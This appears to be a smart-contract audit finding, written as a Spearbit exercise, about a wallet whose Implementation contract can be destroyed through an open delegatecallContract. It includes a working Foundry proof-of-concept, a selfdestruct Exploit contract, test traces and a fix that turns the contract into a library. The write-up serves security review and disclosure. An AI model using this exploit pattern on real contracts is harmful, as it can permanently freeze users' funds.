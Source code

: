 # Spearbit Writing Exercise

## Wallet Protocol Business Requirments

You are given an implementation for a smart contract wallet. There are two contracts

1. [`Implementation.sol`](contracts/Implementation.sol): Deployed once and used as implementation contract in `Proxy.sol`.
2. [`Proxy.sol`](contracts/Proxy.sol): Each user has a unique `Proxy` deployment with the above implementation. This is a simply proxy contract which delegatecalls the implementation contract. It has an access control check that allows only the owner to use the fallback function.

The idea is that users can keep their funds, for example, ETH or ERC20 tokens in the Proxy. To use these funds, users can execute arbitrary calls and arbitrary delegatecalls by using the implementation contract (it has `callContract` and `delegatecallContract`). The implementation contract is deployed only once and reused to save gas.

## Implementation deletion causes DoS of users proxy contracts

**Severity:** Critical

**Impact:** 
An attacker could delete the implementation contract deployed for user proxy contracts. All users funds deposited to their proxy contracts could be stuck forever without any option to withdraw.

**Context:** [Implementation.sol#L9-L22](https://github.com/shabarkin/writing-exercise/blob/develop/src/Implementation.sol#L9-L22)

While reviewing the Proxy and Implementation smart contracts I have observed that Implementation contract is defined as a normal deployable smart contract, this allows an attacker to cause the DoS attack for all users of Proxy contract.
By application business requirment users should have ability to execute arbitrary `call` and arbitrary `delegatecall` functions by using their `Implementation` contract, however the current implementation of this has a side affect.

The `delegatecall` function preserves the state of the calling smart contract, but executes logic of the called smart contract/library. In this architecture the `Implementation` smart contract is deployed as independent smart contract, what means that anyone within the Ethereum network could invoke their functions. 

By deploying the malicious smart contract with a function, which defines `selfdestruct` operation, allows an attacker to "selfdelete" the `Implementation` contract. This may happen, because `Implementation.delegatecallContract` function uses `delegatecall` operation on the arbitrary address and arbitrary calldata. It will execute the logic of malicious function within the state of the `Implementation` contract, what means that the `selfdectruct` operation will be executed within the state of `Implementation` contract. 

The denial of service attack is achieved, because there will be no way to update the implementation of Proxy contract or to withdraw the user funds. Upon deletion of `Implementation` contract, all users funds holded within Proxy contracts will be stuck there forever.

The development and test running were completed with [Foundry](https://book.getfoundry.sh/) framework.


Example of code snippet for the main exploitation business logic: 
```solidity
// Proxy and Implementation contracts deployment
impl = new Implementation();
proxy = new Proxy(address(impl), deployer);

// send funds to deployer account
(bool success,) = deployer.call{value: 1000 ether}("");
if (!success){
    revert("funds are not deposited");
}

// Exploit contract deployment
vm.startPrank(attacker);
exploit = new Exploit();
vm.stopPrank();

// critical: The implementation deletion
vm.startPrank(attacker);

// pack calldata for Exploit contract
bytes memory _calldataExploit = abi.encodeWithSelector(exploit.destroy.selector, attacker);
// delete implementation contract through delegate call on the `selfdestruct`
impl.delegatecallContract(address(exploit), _calldataExploit);

vm.stopPrank();
 ```
 
Example of the check to determine the existance of the contract:
 ```solidity
 function _checkContractExistance(address _contract) private view returns (bool){
    uint256 size;
    assembly {
        size := extcodesize(_contract)
    }
    return size != 0;
}
 ```

Example of the malicious smart contract:
```solidity
contract Exploit {
    address immutable public owner = address(0x02);
    address public implementation;

    function destroy(address _to) public {
        selfdestruct(payable(_to));
    }
}
```

Download:
```
git clone https://github.com/shabarkin/writing-exercise.git
```

Execute the exploit test with Foundry:

```bash
forge test -vvvvv
```

Console output:
```log
Running 1 test for test/Proxy.t.sol:SpearbitImplementationDestructTest
[PASS] testImplementationDestruct() (gas: 8337)
Logs:
  Implementation contract exists: false

Traces:
  [490544] SpearbitImplementationDestructTest::setUp() 
    ├─ [123771] → new Implementation@0xCe71065D4017F316EC606Fe4422e11eB2c47c246
    │   └─ ← 618 bytes of code
    ├─ [96860] → new Proxy@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   └─ ← 371 bytes of code
    ├─ [3000] PRECOMPILE::ecrecover{value: 1000000000000000000000}() 
    │   └─ ← 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [55532] → new Exploit@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← 277 bytes of code
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [6233] Implementation::delegatecallContract(Exploit: [0xE536720791A7DaDBeBdBCD8c8546fb0791a11901], 0x00f55d9d0000000000000000000000000000000000000000000000000000000000000002) 
    │   ├─ [5257] Exploit::destroy(0x0000000000000000000000000000000000000002) [delegatecall]
    │   │   └─ ← ()
    │   └─ ← 0x
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

  [8337] SpearbitImplementationDestructTest::testImplementationDestruct() 
    ├─ [0] console::log(Implementation contract exists: %s, false) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 417.42µs
```


**Recommendation:**
Change the context of `Implementation` smart contract from contract to library. Update their functions by removing the `payable` 
modifier.

```diff
- contract Implementation {
+ library Implementation {

-   function callContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function callContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success , bytes memory ret) =  a.call{value: msg.value}(_calldata);
        require(success);
        return ret;
    }

-   function delegatecallContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function delegatecallContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success, bytes memory ret) =  a.delegatecall(_calldata);
        require(success);
        return ret;
    }
}
```

**Fix commit:** [87379dc](https://github.com/shabarkin/writing-exercise/commit/87379dc56ce658334e1dd367020aed16e6cdf0d5)
